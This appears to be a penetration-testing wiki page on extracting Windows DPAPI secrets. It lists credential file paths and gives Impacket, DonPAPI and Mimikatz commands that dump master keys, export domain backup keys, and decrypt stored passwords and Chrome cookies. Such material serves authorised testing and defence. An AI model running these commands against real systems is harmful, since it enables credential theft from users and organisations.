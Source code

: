 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
---
```


# DPAPI secrets

## Theory

The DPAPI \(Data Protection API\) is an internal component in the Windows system. It allows various applications to store sensitive data \(e.g. passwords\). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, DPAPI-data can be manipulated \(mainly offline\) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) \(Python\), [dpapilab](https://github.com/dfirfpi/dpapilab) \(Python\), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\).

```bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

[DonPAPI](https://github.com/login-securite/DonPAPI) \(Python\) can also be used to remotely extract DPAPI secrets more easily. It supports [pass-the-hash](../../ntlm/pass-the-hash.md), [pass-the-ticket](../../kerberos/pass-the-ticket.md) and so on.

```bash
DonPAPI.py Domain/user:passw0rd@target
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can be used to extract, decrypt or use specific master keys using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords" %}

{% embed url="https://www.synacktiv.com/ressources/univershell\_2017\_dpapi.pdf" %}





